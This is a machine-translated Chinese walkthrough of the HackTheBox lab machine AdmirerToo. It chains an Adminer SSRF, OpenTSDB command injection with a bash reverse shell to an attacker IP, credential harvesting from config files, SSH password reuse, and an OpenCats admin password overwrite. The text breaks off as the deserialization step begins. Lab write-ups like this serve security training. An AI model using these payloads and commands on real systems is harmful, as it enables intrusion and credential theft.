# 黑客盒子中的 AdmirerToo 详细演练

> 原文：<https://infosecwriteups.com/admirertoo-from-hackthebox-detailed-walkthrough-b005ec7a4877?source=collection_archive---------0----------------------->

## 向您展示完成盒子所需的所有工具和技术。

# 机器信息


来自黑客盒子的计时

我们从端口 80 开始这个盒子，有一个网站，一些枚举为我们找到一个数据库。我们利用一个 SSRF 漏洞来查找运行在另一个端口上的 OpenTSDB。这也是易受攻击的，我们利用漏洞在机器上获得一个外壳。环顾四周，我们发现 OpenCats，MySQL 和用户凭证。最终，我们以用户 Jennifer 的身份访问 SSH，这允许我们进行端口转发并远程访问 OpenCats 站点。在这里，我们找到了一种方法，通过创建一个序列化的有效负载来删除 bash 脚本，并让 root 用户使用 Fail2Ban 漏洞和 whois 配置文件来执行它。

所需的技能是良好的列举和利用研究知识。学到的技能是创建序列化的有效载荷，并链接漏洞以获得代码执行。

[](https://www.hackthebox.com/home/machines/profile/427) [## admirator to——破解盒子::渗透测试实验室

### 登录 Hack The Box 平台，让您的笔测试和网络安全技能更上一层楼！

www.hackthebox.com](https://www.hackthebox.com/home/machines/profile/427) 

# 初步侦察

像往常一样，让我们从 Nmap 开始:



盒子的 Nmap 扫描

目前只有端口 80 可用，有几个以后可能感兴趣的端口被过滤掉:


端口 80 上的网站

网站上什么都没有，Feroxbuster 也没有用蛮力找到任何东西。一个不存在的页面给了我们一个 404 没有找到预期:

```
┌──(root💀kali)-[~/htb/admirertoo]
└─# curl -i http://10.10.11.137/pencer   
HTTP/1.1 404 Not Found
Date: Sat, 26 Feb 2022 13:10:59 GMT
Server: Apache/2.4.38 (Debian)
Content-Length: 325
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL was not found on this server.</p>
<hr>
<address>Apache/2.4.38 (Debian) Server at <a href="mailto:webmaster@admirer-gallery.htb">10.10.11.137</a> Port 80</address>
</body></html>
```

然而，mailto 链接揭示了一个领域。让我们把它放在我们的主机文件中:

```
┌──(root💀kali)-[~/htb/admirertoo]
└─# echo "10.10.11.137 admirer-gallery.htb" >> /etc/ hosts
```

# Gobuster

浏览到那个地址会给我们同样简单的网页。让我们尝试另一种暴力，这次是寻找 vhosts:

```
┌──(root💀kali)-[~/htb/admirertoo]
└─# gobuster vhost -t 100 -k -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://admirer-gallery.htb  
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://admirer-gallery.htb
[+] Method:       GET
[+] Threads:      100
[+] Wordlist:     /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/02/26 12:58:27 Starting gobuster in VHOST enumeration mode
===============================================================
Found: db.admirer-gallery.htb (Status: 200) [Size: 2511]
===============================================================
2022/02/26 13:01:14 Finished
===============================================================
```

现在我们有了一个子域，将其添加到我们的 hosts 文件中:

```
┌──(root💀kali)-[~/htb/admirertoo]
└─# echo "10.10.11.137 db.admirer-gallery.htb" >> /etc/ hosts
```

# 管理员

浏览该网站，我们会发现 Adminer 4.7.8 的登录页面:



管理员登录页面

点击“回车”进入系统，我们可以浏览数据库:



管理员数据库探索

你在这里做不了什么。寻找漏洞我看到这个版本的 Adminer 是 2020 年 12 月的，这里有几个选项。对于 4.7.8 我们有[CVE-2021–21311](https://www.cvedetails.com/cve/CVE-2021-21311/)与一个漏洞[在这里](https://github.com/vrana/adminer/files/5957311/Adminer.SSRF.pdf)。

# SSRF 脆弱性

通读这个漏洞，我们看到有一个 SSRF 漏洞，这里有一个脚本，我们可以用它来重定向请求。让我们抓住它，设置监听:

```
┌──(root💀kali)-[~/htb/admirertoo]
└─# wget https://gist.githubusercontent.com/bpsizemore/227141941c5075d96a34e375c63ae3bd/raw/0f5e8968a3490190d72ccefd40f9c6b693918d71/redirect.py
--2022-02-28 22:31:43--
Connecting to gist.githubusercontent.com (gist.githubusercontent.com)|185.199.109.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1290 (1.3K) [text/plain]
Saving to: ‘redirect.py.1’
redirect.py   100%[===============>]   1.26K  --.-KB/s    in 0s      
2022-02-28 22:31:43 (139 MB/s) - ‘redirect.py’ saved [1290/1290]┌──(root💀kali)-[~/htb/admirertoo]
└─# python2 redirect.py --port 80 http://127.0.0.1
serving at port 80
```

等待之后，让我们开始打嗝，这样我们就可以拦截来自浏览器的请求。现在回到网站，准备拦截打嗝，点击此处进入:


点击回车发送到打嗝

在 Burp 中，我们捕捉到了请求:



使用打嗝来拦截请求

POST 消息的最后一部分是 URL 编码的，如果您对它进行解码，它看起来像这样:

```
auth[driver]=server&
auth[server]=localhost&
auth[username]=admirer_ro&
auth[password]=1w4nn4b3adm1r3d2!&
auth[db]=admirer&
auth[permanent]=1
```

如果你看看这个漏洞，它显示你改变系统字段为 Elasticsearch，对于我们的表单，我们需要改变参数 **auth[driver]** ，这是等价的。更复杂的是，如果你在文档中查看[这里](https://github.com/vrana/adminer/blob/master/adminer/drivers/elastic.inc.php)驱动程序实际上被称为 elastic 而不是 elasticsearch。

其次，该漏洞显示您将服务器更改为您的攻击机器 IP，对于我们的表单，我们需要更改参数**auth[服务器]** ，这是等效的。

所以我们改变的参数看起来像这样:

```
auth[driver]=elastic&
auth[server]=10.10.16.95&
auth[username]=admirer_ro&
auth[password]=1w4nn4b3adm1r3d2!&
auth[db]=admirer&
auth[permanent]=1
```

URL 对其进行编码，并在 Burp 中进行替换，如下所示:



Url 编码字符串

单击 forward，您将看到一个打嗝式的 GET 请求:



打嗝时转发请求

再次单击 forward，您将看到如下页面，而不是我们之前看到的 db admin 屏幕:



管理员页面显示来自漏洞的响应

如果你在输出上做 html2text，你会看到它是来自我们在开始看到的最初的仰慕者-画廊. htb 站点的 index.php 页面:

```
┌──(root💀kali)-[~/htb/admirertoo]
└─# cat html | html2text

Admirer
****** Admirer of theworld. ******
Welcome to my image gallery.
Are you an admirer too?
 [img/highway.jpg]
******_Biodiesel_squid_******
Have_you_ever_seen_anything_like_it?
[img/portfolio_item_4.png]
******_raclette_taxidermy_******
Impressive,_isn't_it?
<SNIP>
```

查看我们在 Kali 中运行的重定向器，我们看到我们成功了:

```
┌──(root💀kali)-[~/htb/admirertoo]
└─# python2 redirect.py --port 80 http://127.0.0.1
serving at port 80
10.10.11.137 - - [28/Feb/2022 22:53:51] "GET / HTTP/1.0" 301 -
10.10.11.137 - - [28/Feb/2022 22:53:52] "GET / HTTP/1.0" 301 -
```

这证实了我们将请求重定向回机器上的端口 80，并且我们可以使用 SSRF 来进一步枚举它。如果你需要一本关于 SSRF 的入门书，那么 PortSwigger 有一篇好文章[在这里](https://portswigger.net/web-security/ssrf)。

# 扫描过滤端口

如果我们回顾一下开始时的 Nmap 扫描，会发现有几个经过过滤的端口，这是我们感兴趣的一个:

```
4242/tcp  filtered vrml-multi-use
```

利用我们使用 SSRF 攻击能力，我们可以从机器内部探测端口，我们只需要改变我们的重定向器:

```
┌──(root💀kali)-[~/htb/admirertoo]
└─# python2 redirect.py --port 80 http://127.0.0.1:4242
serving at port 80
```

现在，当我们收到 Kali 上的 box 请求时，我们会将其重定向回端口 4242。我们需要执行与之前相同的过程来执行 SSRF 攻击。回到网络浏览器，进入登录页面。准备好拦截打嗝后，点击输入按钮:


向打嗝者发送请求

更改最后一部分，使 auth[driver]设置为 elastic，auth[server]设置为我们的 Kali IP:


更改参数以指向 Kali

单击 forward，您将看到一个打嗝式的 GET 请求:


通过打嗝拦截请求

再次单击 forward，切换回浏览器以查看反射的输出:



在网站上查看反映的输出

# OpenTSDB

可以看到页面标题写着 OpenTSDB。我从未听说过这个，但快速搜索发现 GitHub repo 为它[这里](https://github.com/OpenTSDB/opentsdb)。寻找漏洞发现[这个](https://nvd.nist.gov/vuln/detail/CVE-2020-35476) CVE，与一个 POC [在这里](https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/2020/CVE-2020-35476.yaml)试图泄漏密码文件。我还在这个项目的[中找到了更多的信息。](https://github.com/OpenTSDB/opentsdb/issues/2051)

所以我使用了这个例子，并把我的重定向器修改成这样:



Python 运行我们的 SSRF 漏洞

这很难阅读，但我正在利用漏洞做一个密码文件的猫。和以前一样，回到浏览器，让 Burp 拦截，单击输入捕获请求，并更改 auth[driver]和 auth[server],就像我们上次做的那样。转发它，回到浏览器中，我们看到:



错误显示指标不可用

一个很长的错误列表，末尾的重要位被突出显示。没有 sys.cpu.nice 这样的指标。搜索在 StackOverflow 上找到了 [this](https://stackoverflow.com/questions/18396365/opentsdb-get-all-metrics-via-http) 以列出可用的指标。更改我们的重定向器:

```
┌──(root💀kali)-[~/htb/admirertoo]
└─# python2 redirect.py --port 80 'http://127.0.0.1:4242/api/suggest?type=metrics'
serving at port 80
```

回到浏览器，用打嗝等方式拦截。转发后，我们在浏览器中看到以下响应:



反射的响应显示可用的度量

所以现在我们知道唯一可用的度量是 http.stats.web.hits。我花了很长时间试图使用这个度量在浏览器中显示 passwd 文件或任何其他文件。我没有得到一个错误，所以我确信我得到了正确的参数。最后我用了第一次成功的反向外壳！

# 反向外壳

我用这个简单的反向外壳:

```
'/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.16.95/1337 0>&1"'
```

我对它进行了 URL 编码，所以它看起来像这样:

```
%27%2f%62%69%6e%2f%62%61%73%68%20%2d%63%20%22%2f%62%69%6e%2f%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%31%30%2e%31%36%2e%39%35%2f%31%33%33%37%20%30%3e%26%31%22%27
```

然后，我启动了重定向器，将它作为要执行的系统命令:

```
┌──(root💀kali)-[~/htb/admirertoo]
└─# python2 redirect.py --port 80 'http://127.0.0.1:4242/q?start=2000/10/21-00:00:00&end=2020/10/25-15:56:44&m=sum:http.stats.web.hits&o=&ylabel=&xrange=10:10&yrange=[33:system(%27%2f%62%69%6e%2f%62%61%73%68%20%2d%63%20%22%2f%62%69%6e%2f%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%31%30%2e%31%36%2e%39%35%2f%34%34%34%34%20%30%3e%26%31%22%27)]&wxh=1516x644&style=linespoint&baba=lala&grid=t&json'
serving at port 80
```

回到浏览器，用打嗝等方式拦截。根据请求以打嗝的方式转发，然后返回到终端以查看我们是否已连接:

```
┌──(root💀kali)-[~]
└─# nc -nlvp 4444 
listening on [any] 4444 ...
connect to [10.10.16.95] from (UNKNOWN) [10.10.11.137] 58776
opentsdb@admirertoo:/$
```

在我们做任何事情之前升级 shell:

```
opentsdb@admirertoo:/$ which python
/bin/python
opentsdb@admirertoo:/$ python -c 'import pty;pty.spawn("/bin/bash")'
opentsdb@admirertoo:/$ ^Z    
zsh: suspended  nc -nlvp 4444
┌──(root💀kali)-[~]
└─# stty raw -echo; fg
opentsdb@admirertoo:/$ stty rows 51 cols 236
opentsdb@admirertoo:/$ export TERM=xterm
```

# OpenCats

环顾四周，我在/opt 文件夹中发现了一些有趣的东西:

```
opentsdb@admirertoo:~$ ls -l /opt
drwxr-xr-x  9 root hbase 4096 Jul  8  2021 hbase
drwxr-xr-x 23 root root  4096 Jul 21  2021 opencats
```

在那个文件夹中，自述文件将我们指向这里的文档。这似乎是一个免费的招聘系统，我在文件夹中找到了一个配置文件，其中包含数据库凭据:

```
opentsdb@admirertoo:/opt/opencats$ more config.php
<?php
/*
 * CATS
 * Configuration File
 *
<SNIP>
/* Database configuration. */
define('DATABASE_USER', 'cats');
define('DATABASE_PASS', 'adm1r3r0fc4ts');
define('DATABASE_HOST', 'localhost');
define('DATABASE_NAME', 'cats_dev');
```

# MySQL 枚举

我们可以找到数据库:

```
opentsdb@admirertoo:/opt/opencats$ find / -name cats_dev 2>/dev/null
/var/lib/mysql/cats_dev
```

有了凭证，我们可以枚举数据库和转储用户:

```
opentsdb@admirertoo:/opt/opencats$ mysql -u cats -padm1r3r0fc4ts -e 'show databases;'
+--------------------+
| Database           |
+--------------------+
| cats_dev           |
| information_schema |
+--------------------+opentsdb@admirertoo:/opt/opencats$ mysql -u cats -padm1r3r0fc4ts -e 'show tables from cats_dev;'
+--------------------------------------+
| Tables_in_cats_dev                   |
+--------------------------------------+
| access_level                         |
<SNIP>
| user                                 |
| user_login                           |
| word_verification                    |
| xml_feed_submits                     |
| xml_feeds                            |
| zipcodes                             |
+--------------------------------------+opentsdb@admirertoo:/opt/opencats$ mysql -u cats -padm1r3r0fc4ts -e 'show columns in user from cats_dev;'
+---------------------------+--------------+------+-----+---------+
| Field                     | Type         | Null | Key | Default |
+---------------------------+--------------+------+-----+---------+
| user_id                   | int(11)      | NO   | PRI | NULL    |
| site_id                   | int(11)      | NO   | MUL | 0       |
| user_name                 | varchar(64)  | NO   |     |         |
| email                     | varchar(128) | YES  |     | NULL    |
| password                  | varchar(128) | NO   |     |         |
<SNIP>
| can_see_eeo_info          | int(1)       | YES  |     | 0       |
+---------------------------+--------------+------+-----+---------+opentsdb@admirertoo:/opt/opencats$ mysql -u cats -padm1r3r0fc4ts -D cats_dev -e 'select user_name,password from user;'
+----------------+----------------------------------+
| user_name      | password                         |
+----------------+----------------------------------+
| admin          | dfa2a420a4e48de6fe481c90e295fe97 |
| cats@rootadmin | cantlogin                        |
| jennifer       | f59f297aa82171cc860d76c390ce7f3e |
+----------------+----------------------------------+
```

我无法破解这些 md5 哈希，所以现在这是一个死胡同。是时候对操作系统进行更多的枚举了，我最终找到了更多的凭证:

```
opentsdb@admirertoo:/var/www/adminer$ grep -rl "pass*" . 2>/dev/null
./plugins/data/servers.php
./plugins/oneclick-login.php
./plugins/plugin.php
./adminer-included-0ae90598f37b20e3e7eb122c427729ed.php

opentsdb@admirertoo:/var/www/adminer$ cat plugins/data/servers.php
<?php
return [
  'localhost' => array(
//    'username' => 'admirer',
//    'pass'     => 'bQ3u7^AxzcB7qAsxE3',
// Read-only account for testing
    'username' => 'admirer_ro',
    'pass'     => '1w4nn4b3adm1r3d2!',
    'label'    => 'MySQL',
    'databases' => array(
      'admirer' => 'Admirer DB',
    )
  ),
];
```

看看可以登录机器的用户，我们只看到一个:

```
opentsdb@admirertoo:/var/www/adminer$ ls -l /home
drwxr-xr-x 3 jennifer users 4096 Feb 22 20:58 jennifer
```

# 宋承宪饰演詹妮弗

原来上面的密码被 jennifer 重复使用了:

```
┌──(root💀kali)-[~/htb/admirertoo]
└─# ssh jennifer@admirer-gallery.htb
jennifer@admirer-gallery.htbs password:
Linux admirertoo 4.19.0-18-amd64 #1 SMP Debian 4.19.208-1
No mail.
Last login: Wed Mar  2 22:02:08 2022 from 10.10.14.160
jennifer@admirertoo:~$
```

查看正在运行的服务，可以看到一些端口在本地侦听:



netstat 显示本地监听服务

8080 端口经常用于网站，我们可以使用 curl 来查看:

```
jennifer@admirertoo:~$ curl 127.0.0.1:8080
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html>
<head>
<title>opencats - Login</title>
```

# SSH 端口转发

这是我们之前看到的 OpenCats 的登录页面。让我们建立一个从 Kali 到 box 的 SSH 隧道，这样我们就可以查看该网站:

```
┌──(root💀kali)-[~/htb/admirertoo]
└─# ssh -L 1234:127.0.0.1:8080 jennifer@admirer-gallery.htb
jennifer@admirer-gallery.htb's password:
Linux admirertoo 4.19.0-18-amd64 #1 SMP Debian 4.19.208-1
Last login: Wed Mar  2 23:07:19 2022 from 10.10.14.169
jennifer@admirertoo:~$
```

现在，在 Kali 上，我们可以浏览到端口 1234，并将通过 SSH 隧道转发到机器上的端口 8080:


OpenCats 登录页面

# OpenCats 漏洞

登录页面显示版本是 0.9.5.2，搜索发现两个 CVE。[这个](https://www.opencve.io/cve/CVE-2021-25294)是反序列化漏洞利用，[这个](https://www.opencve.io/cve/CVE-2021-25295)是 XXS 问题。两者都指向这里的[技术走位。](https://snoopysecurity.github.io/web-application-security/2021/01/16/09_opencats_php_object_injection.html)

为了能够利用这些漏洞，我们需要有效的凭证来进入 OpenCATS 仪表板。早些时候我从 OpenCATS 使用的 MySQL 数据库中找到了用户和哈希，但我无法破解它们。相反，对于数据库的管理员访问权限，我们可以为管理员帐户设置一个新密码。

为我的密码创建一个 md5 散列，它是 pencer:

```
jennifer@admirertoo:~$ echo -n pencer | md5sum
b8ea4ab13b0e0864760dbfb9427f31fc  -
```

在数据库中找到管理员帐户的 user_id:

```
jennifer@admirertoo:~$ mysql -u cats -padm1r3r0fc4ts -D cats_dev -e 'select user_id,user_name,password from user;'
+---------+----------------+----------------------------------+
| user_id | user_name      | password                         |
+---------+----------------+----------------------------------+
|       1 | admin          | dfa2a420a4e48de6fe481c90e295fe97 |
|    1250 | cats@rootadmin | cantlogin                        |
|    1251 | jennifer       | f59f297aa82171cc860d76c390ce7f3e |
+---------+----------------+----------------------------------+
```

将密码更改为我的哈希版本:

```
jennifer@admirertoo:~$ mysql -u cats -padm1r3r0fc4ts -D cats_dev -e 'update user set password = "b8ea4ab13b0e0864760dbfb9427f31fc" where user_id = 1;'
```

# OpenCats 作为管理员

现在回到 OpenCATS 登录框，使用 admin:pencer 进入仪表板:



以管理员身份登录 OpenCats 主页

该漏洞说明 activities 部分使用了不安全的反序列化函数。开始打嗝，准备好拦截，然后点击日期:



用打嗝拦截 OpenCats 请求

在 Burp 中，您可以看到 ActivityDataGrid 参数后面有一个序列化的字符串:

